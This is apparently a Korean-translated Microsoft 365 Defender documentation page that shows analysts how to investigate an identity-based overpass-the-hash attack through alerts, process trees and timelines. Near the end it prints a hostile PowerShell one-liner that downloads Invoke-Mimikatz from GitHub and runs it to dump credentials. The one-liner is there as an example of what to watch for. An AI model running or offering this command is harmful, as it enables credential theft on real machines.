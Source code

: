 ```yaml
---
title: ID 기반 공격의 예
description: ID 기반 공격의 예제 분석을 진행합니다.
keywords: 인시던트, 경고, 조사, 상관 관계, 공격, 컴퓨터, 장치, 사용자, ID, ID, 사서함, 전자 메일, 365, Microsoft, m365, 인시던트 대응, 사이버 공격
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: e56d6d5d78101da1f6da4c14ade25e80aa5b5063
ms.sourcegitcommit: 05f40904f8278f53643efa76a907968b5c662d9a
ms.translationtype: MT
ms.contentlocale: ko-KR
ms.lasthandoff: 04/30/2021
ms.locfileid: "52114857"
---
```

# <a name="example-of-an-identity-based-attack"></a>ID 기반 공격의 예

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**적용 대상:**
- Microsoft 365 Defender

Microsoft Defender for Identity는 조직에서 ID를 손상하려는 악의적인 시도를 감지하는 데 도움이 될 수 있습니다. ID에 대한 Defender는 Microsoft 365 Defender와 통합되어 있기 때문에 보안 분석가가 Id를 위해 Defender에서 오는 위협(예: 의심되는 Netlogon 권한 상승 시도)을 볼 수 있습니다.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Id에 대한 Microsoft Defender의 공격 분석

Microsoft 365 Defender를 사용하면 분석가가 인시던트  페이지의 경고 탭에서 검색 원본을 통해 경고를 필터링할 수 있습니다. 다음 예제에서는 ID에 대한 검색 원본이 **Defender로 필터링됩니다.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="ID에 대한 Defender에 대한 검색 원본 필터링 예":::

의심되는 **overpass-the-hash** 공격 경고를 선택하면 자세한 정보가 Microsoft Cloud App Security 페이지로 이동합니다. 경고 유형에 대해 자세히 알아보고 공격에  대한 설명과 수정 제안을 읽으면 경고 또는 공격에 대한 자세한 정보를 언제든지 찾을 수 있습니다. [](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="의심되는 오버패스- 해시 공격 경고의 예"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>끝점에 대한 Microsoft Defender에서 동일한 공격 조사

또는 분석가가 끝점용 Defender를 사용하여 끝점의 활동에 대해 자세히 배울 수 있습니다. 인시던트 큐에서 인시던트 를 선택한 다음 경고 **탭을** 선택합니다. 여기에서 검색 원본도 식별할 수 있습니다. 검색된 것으로 레이블이 EDR 끝점 검색 및 응답은 끝점용 Defender입니다. 여기에서 분석가가 검색된 경고를 EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Endpoint용 Defender의 끝점 감지 및 응답 예"::: 

경고 페이지에는 영향을 미치는 장치 이름, 사용자 이름, 자동 조사 상태, 경고 세부 정보 등 다양한 관련 정보가 표시됩니다. 경고 스토리는 프로세스 트리의 시각적 표현을 나타냈습니다. 프로세스 트리는 경고와 관련된 상위 및 자식 프로세스의 계층적 표현입니다.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Endpoint용 Defender의 경고 프로세스 트리 예"::: 

각 프로세스를 확장하여 추가 세부 정보를 볼 수 있습니다. 분석가가 볼 수 있는 세부 정보는 악의적인 스크립트, 아웃바운드 연결 IP 주소 및 기타 유용한 정보의 일부로 입력된 실제 명령입니다.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Endpoint용 Defender의 프로세스 세부 정보 예":::
 
시간 표시 **막대에서 참조를** 선택하면 분석가가 드릴다운을 추가하여 정확한 손상 시간을 확인할 수 있습니다. 

끝점용 Microsoft Defender는 여러 악성 파일 및 스크립트를 검색할 수 있습니다. 그러나 아웃바운드 연결, PowerShell 및 명령줄 활동에는 합법적인 사용이 많기 때문에 악의적인 파일이나 활동을 생성하기 전까지는 일부 활동이 무해한 것으로 간주됩니다. 따라서 타임라인을 사용하면 분석가가 주변 활동과 함께 경고를 컨텍스트에 배치하여 일반적인 파일 시스템 및 사용자 활동으로 가려진 원래 공격의 원본이나 시간을 확인할 수 있습니다. 

이를 위해 분석가가 경고 검색 시(빨간색)에 시작하고 뒤로 스크롤하여 악의적인 활동을 주도한 원래 활동이 실제로 시작된 시기를 파악합니다. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="경고 검색 시 시작 예제"::: 

Windows 업데이트 연결, Windows 신뢰할 수 있는 소프트웨어 정품 인증 트래픽, Microsoft 사이트에 대한 기타 일반적인 연결, 타사 인터넷 활동, Microsoft Endpoint Configuration Manager 활동 및 기타 무해한 활동과 같은 일반적인 활동을 이해하고 구분해야 합니다. 이렇게 하는 한 가지 방법은 시간 표시 막대 필터를 사용하는 것입니다. 분석가가 보지 않을 모든 것을 필터링하는 동안 특정 활동을 강조할 수 있는 많은 필터가 있습니다. 

아래 이미지에서 분석가가 네트워크 및 처리 이벤트만 보기 위해 필터링했습니다. 이를 통해 분석가가 IP 주소와의 연결을 설정한 이벤트와 메모장 네트워크 연결 및 프로세스를 볼 수 있습니다. 프로세스 트리에서도 볼 수 있습니다. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="악의적인 아웃바운드 연결을 메모장 방법의 예"::: 

이 특정 이벤트에서는 메모장 아웃바운드 연결을 만드는 데 사용됩니다. 그러나 일반적으로 iexplorer.exe 웹 브라우저 활동으로 간주되어 공격자는 단순히 iexplorer.exe 사용하여 악의적인 페이로드를 다운로드하기 위한 연결을 설정하기만 합니다.

타임라인에서 찾아야 할 또 다른 항목은 아웃바운드 연결에 PowerShell이 사용하는 것입니다. 분석가가 악성 파일을 호스팅하는 웹 사이트에 대한 아웃바운드 연결과 같은 명령을 사용하여 성공적인 PowerShell 연결을 `IEX (New-Object Net.Webclient)` 찾아야 합니다. 

다음 예제에서는 PowerShell을 사용하여 웹 사이트에서 Mimikatz를 다운로드하고 실행했습니다.

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
분석가가 검색 표시줄에 키워드를 입력하여 PowerShell로 만든 이벤트만 표시하면 키워드를 빠르게 검색할 수 있습니다. 

## <a name="next-step"></a>다음 단계

피싱 [조사 경로를](first-incident-path-phishing.md) 참조합니다.

## <a name="see-also"></a>참고 항목

- [인시던트 개요](incidents-overview.md)
- [인시던트 관리](manage-incidents.md)
- [인시던트 분석](investigate-incidents.md)
